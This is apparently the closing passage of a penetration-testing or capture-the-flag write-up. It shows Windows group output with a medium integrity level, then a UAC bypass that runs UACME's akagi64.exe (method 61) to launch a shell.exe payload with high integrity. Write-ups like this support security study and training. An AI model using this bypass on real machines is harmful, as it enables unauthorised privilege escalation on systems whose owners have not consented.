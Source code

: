 ```
... snip ..
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only                          
... snip ...
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
```

We are a member of administrators but not in a high integrity process. Going to run https://github.com/hfiref0x/UACME to bypass UAC
```
C:\Windows\Tasks>.\akagi64.exe 61 C:\Windows\Tasks\shell.exe
.\akagi64.exe 61 C:\Windows\Tasks\shell.exe
```

Now we are in a high integrity process.


Fin.
